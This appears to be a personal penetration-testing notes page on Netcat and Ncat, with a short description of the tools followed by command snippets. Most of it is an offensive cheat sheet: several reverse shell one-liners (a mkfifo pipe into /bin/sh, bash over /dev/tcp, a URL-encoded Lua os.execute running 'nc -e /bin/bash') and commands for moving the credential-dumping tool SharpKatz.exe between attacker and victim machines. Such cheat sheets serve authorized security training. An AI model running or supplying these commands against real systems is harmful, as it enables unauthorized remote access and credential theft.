 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```

## Shell Commands 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f
```

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--
```

```
nc -c bash xxx xxx
```

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

## Data Transfer

## Connect from Attacker / Listener on Victim 

1. Setup listener 

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

2. Send file

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


## Connect from Victim / Listener on Attacker

1. Setup listener on attacker 

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

2. Receive file

```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```










